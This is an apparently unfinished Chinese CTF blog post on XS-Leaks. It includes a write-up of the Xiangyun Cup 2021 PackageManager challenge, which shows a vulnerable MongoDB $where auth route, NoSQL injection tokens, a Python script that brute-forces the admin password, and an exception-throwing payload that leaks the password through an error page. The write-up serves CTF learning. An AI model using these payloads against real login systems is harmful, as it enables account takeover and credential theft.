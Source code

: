 ```yaml
---
title: XSLeaks 侧信道攻击 (unfinished)
date: 2022-03-14 22:46:00
updated: 2022-03-14 22:46:00
tags: [ctf,security]
---
```


# XSLeaks 侧信道攻击

## 前置芝士🧀

>
>
>参考：
>
>https://book.hacktricks.xyz/pentesting-web/xs-search
>
>https://xsleaks.dev/
>
>https://www.scuctf.com/ctfwiki/web/9.xss/xsleaks/
>
>https://www.cnblogs.com/starrys/p/15171221.html
>
>https://blog.csdn.net/rfrder/article/details/119914746

在补了近期几场CTF的题后发现2022的SUSCTF和TQLCTF都出了XSLeaks侧信道攻击的题目，虽然没有环境供我去复现题目，但是对于XSLeaks这个知识点还是可以好好研究一下

### 什么是 XS-Leaks

XS-Leaks 全称 Cross-site leaks，可以用来 **探测用户敏感信息**。

利用方式、利用条件等都和 csrf 较为相似。

说到探测用户敏感信息，是如何进行探测的？和csrf 相似在哪？

设想网站存在一个模糊查找功能（若前缀匹配则返回对应结果）例如 `http://localhost/search?query=`，页面是存在 xss 漏洞，并且有一个类似 flag 的字符串，并且只有不同用户查询的结果集不同。这时你可能会尝试 csrf，但是由于网站正确配置了 CORS，导致无法通过 xss 结合 csrf 获取到具体的响应。这个时候就可以尝试 XS-Leaks。

虽然无法获取响应的内容，但是是否查找成功可以通过一些侧信道来判断。通过哪些侧信道判断呢？

这些侧信道的来源通常有以下几类：

1. 浏览器的 api (e.g. [Frame Counting](https://xsleaks.dev/docs/attacks/frame-counting/) and [Timing Attacks](https://xsleaks.dev/docs/attacks/timing-attacks/))
2. 浏览器的实现细节和bugs (e.g. [Connection Pooling](https://xsleaks.dev/docs/attacks/timing-attacks/connection-pool/) and [typeMustMatch](https://xsleaks.dev/docs/attacks/historical/content-type/#typemustmatch))
3. 硬件bugs (e.g. Speculative Execution Attacks [4](https://xsleaks.dev/#fn:4))

通过测信道攻击可以获取到用户隐私信息。

### 使用条件

具有模糊查找功能，可以构成二元结果（成功或失败），并且二元之间的差异性可以通过某种侧信道技术探测到。

可以和 csrf POST 型一样触发，需要诱使受害者触发执行 js 代码。所以特定功能数据包必须没有类似 csrf token 的保护等。

## 祥云杯 2021 PackageManager

### 布尔盲注

这题在BUUOJ上有复现环境

注册登录后发现是个包管理的页面，可以创建自己的包，那么根据源码初始化数据库这一部分，比较显然我们需要登录admin的账号然后admin会有个包里面有flag。

![image-20220323161015566](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220323161015566.png)

![image-20220323160826952](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220323160826952.png)

那我们的目标就是找到admin用户的密码

漏洞产生的点是/auth接口，auth接口是用于验证submit package的用户是不是admin用户，然后是需要提交一个admin的token，这个token就是admin用户的密码的md5，我们可以在这里构造一下payload然后爆出password，从而实现admin用户登录。

正则检测的waf没有加`^$`,意味着后面可以加or条件，这个很关键

```tsx
router.post('/auth', async (req, res) => {
	let { token } = req.body;
	if (token !== '' && typeof (token) === 'string') {
		if (checkmd5Regex(token)) {
			try {
				let docs = await User.$where(`this.username == "admin" && hex_md5(this.password) == "${token.toString()}"`).exec()
				console.log(docs);
				if (docs.length == 1) {
					if (!(docs[0].isAdmin === true)) {
						return res.render('auth', { error: 'Failed to auth' })
					}
				} else {
					return res.render('auth', { error: 'No matching results' })
				}
			} catch (err) {
				return res.render('auth', { error: err })
			}
		} else {
			return res.render('auth', { error: 'Token must be valid md5 string' })
		}
	} else {
		return res.render('auth', { error: 'Parameters error' })
	}
	req.session.AccessGranted = true
	res.redirect('/packages/submit')
});
```

我们构造token:`aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"||this.password[0]=="a`使得括号内的值为

`this.username == "admin" && hex_md5(this.password) == "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" || this.password[0]=="a"`

此时只要或条件成立语句就为真，写个脚本就可以爆出密码啦

```python
import requests
import string

url="http://d8ec246d-507e-4aaa-a226-d318473d31ec.node4.buuoj.cn:81/auth"
headers={
    "Cookie": "session=s%3Ay8Ne8sPLeY55QXmWPyh3WmPiuoDgOp6y.U3VuzJCBxWcb5AWW8CCkPJqnSmYJ1N9EnHvoR%2BBuGho",
}

flag = ''
for i in range(10000):
    for j in string.printable:
        if j == '"':
            continue
        payload='aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"||this.password[{}]=="{}'.format(i,j)
        data={
            "_csrf": "YzvJKLZc-4Sp0gfSn-hIRIF4bUZu0nhXy0HU",
            "token": payload
        }
        r=requests.post(url=url,data=data,headers=headers,allow_redirects=False)
        # print(r.text)
        if "Found. Redirecting to" in r.text:
            print(payload)
            flag+=j
            print(flag)
            break
```



![image-20220323155929287](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220323155929287.png)

![image-20220323160751490](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220323160751490.png)

### mongodb异常注入

同样的是对auth接口这里逻辑判断，利用了js的抛出异常和IIFE（立即调用函数表达式）来实现

`token=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"||(()=>{throw Error(this.password)})()=="admin`

逻辑判断语句为：`this.username == "admin" && hex_md5(this.password) == "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"||(()=>{throw Error(this.password)})()!="aaaaa"`

这里就是立即执行throw Error(this.password)，后面是!=还是== 字符串的值是什么都无所谓，只要是语法没问题然后语句正常执行，这里强制抛出异常，从源码中可以看到抛出的异常会被渲染出来，然后就能够看到password的值

```js
let docs = await User.$where(`this.username == "admin" && hex_md5(this.password) == "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"||(()=>{throw Error(this.password)})()=="admin""`).exec()
console.log(docs);
```

![image-20220323165452041](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220323165452041.png)





## SUSCTF 2022 ez_note



## TQLCTF 2022 A More Secure Pastebin

